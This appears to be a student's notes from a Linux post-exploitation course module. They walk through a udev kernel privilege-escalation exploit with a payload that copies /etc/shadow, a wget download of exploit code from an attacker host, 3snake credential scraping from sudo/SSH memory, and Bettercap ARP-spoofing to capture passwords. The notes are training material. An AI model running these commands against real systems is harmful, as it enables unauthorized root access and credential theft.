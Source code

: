 
### Post Exploitation and Lateral Movement - Video

1. Kernel vulnerability exploitation.

`uname -a`: to display the kernel version.
`dpkg -l | grep "udev"`: to see the `udev` version.
We choose to kernel exploit for `CVE-2009-1185`: "Linux Kernel 2.6 (Gentoo / Ubuntu 8.10/9.04) UDEV < 1.4.1 - Local Privilege Escalation (2)".

First, we need to understand how the exploit code works: it will execute as root whatever we put in the `/tmp/run` directory. For example: `echo -e "#!/bin/bash\n/bin/cat /etc/shadow > /tmp/shadow" > /tmp/run`.
As option, we need to supply the udev link socket PID we can obtain with: `cat /proc/net/netlink`.
It is usually udev PID minus 1, we can confirm this by: `ps aux | grep "udev"`.

`python -m SimpleHTTPServer 80`, `wget http://<AttackerIP>/8572.c`: to download (from the attacker machine) the exploit code to the target system.
`gcc --version`, `gcc 8572.c -o udev_exploit`, `chmod +x udev_exploit`, `./udev_exploit 2767`: to exploit the vulnerability and execute the payload contained in `/tmp/run`.

`ls /tmp`, `cat /tmp/shadow`: to read the captured `/etc/passwd` file content.

2. [*3snake*](https://github.com/blendin/3snake) tool, to obtain user credentials from sudo and SSH processes directly from memory, once we have root access to a machine.

Once a new `sshd` or `sudo` process is detected, it uses the `ptrace` Unix system call to monitor these processes for read/write calls, ultimately extracting strings related to passwords from the process memory.

`wget https://github.com/blendin/3snake/archive/master.zip`, `unzip master.zip`, `cd 3snake-master`, `make`: to download and compile the 3snake tool to the target machine.
`./3snake -h`, `./3snake`: to run the tool and watch in real time for captured credentials.

3. Bettercap usage to capture credentials for HTTP POST requests and FTP, using a MITM attack.
Bettercap uses ARP spoofing to put in place a MITM attack.

We will use Bettercap built-in POST and FTP parsers modules: `cd /root/Desktop/tools/bettercap`, `cp /usr/lib/ruby/vendor_ruby/bettercap/sniffer/parsers/post.rb .`, `cp /usr/lib/ruby/vendor_ruby/bettercap/sniffer/parsers/ftp.rb .`.
`bettercap -X -I eth0 -T <TargetIP1>,<TargetIP2> -P post,ftp`: where `-X` is for the headless execution (without GUI), the tool will automatically determine the LAN gateway, and will capture specifically HTTP POST and FTP traffic between our target hosts.
Remember that as target we can define just a single target, more of them or even a specific IP address range.

Now, all it takes is waiting until your target either makes a POST request or FTP login to another system.

### Linux Exploitation: Lab 3 - Remote Exploitation and Post Exploitation - Lab

You will learn to find and exploit a vulnerable web application in this lab. It will also cover post-exploitation techniques to extract sensitive information and pivot!

In this lab environment, the user will access a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali at `http://demo.ine.local`.
